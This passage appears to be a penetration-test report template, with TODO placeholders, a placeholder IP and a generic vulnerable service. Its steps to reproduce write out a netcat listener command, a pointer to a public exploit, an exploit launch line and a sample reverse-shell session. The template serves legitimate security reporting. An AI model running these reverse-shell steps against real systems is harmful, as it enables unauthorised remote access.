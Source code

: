 Screenshot Here:

![SQL injection exploit](img/placeholder-image-300x225.png)

#### Post-Exploitation
**System Proof Screenshot:**

![proof.txt](img/placeholder-image-300x225.png)

## Target #2 - 192.168.1.2 TODO 

### Service Enumeration
**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.1.2 TODO       | **TCP**: 1,2,3,4\
**UDP**: 5,6


**VULN Enumeration**
TODO Upon manual enumeration of the available VULN service on port X, we noticed it was running ...

### Initial Access - VULNSERVICE EXPLOIT
**Vulnerability Explanation:**
TODO VULNSERVICE is subject to an x vulnerability in ...
Attackers can use this vulnerability to cause arbitrary remote code execution and take completely control over the system.
When performing the penetration test, we noticed an outdated version of VULNSERVICE running from the service enumeration phase. A targeted attack was performed on the system which gave us low-privilege access over the system.

**Vulnerability Fix:**
TODO The publishers of the VULNSERVICE have issued a patch to fix this known issue
It can be found here: <http://example.com> 

**Severity:** Critical

**Steps to reproduce the attack:** TODO 

1. Download the exploit code from here: <https://www.exploit-db.com/exploits/588> 
2. Start a netcat listener on your attacking machine:
   
```bash
nc -lvnp 445
```

7. Launch the exploit with the below command

```bash
python exploit.py -t 192.168.1.2 -lp 445
```

8. You should receive a shell from the target machine:

```bash
nc connection received from XXXXXXX
C:> whoami
testreport
```
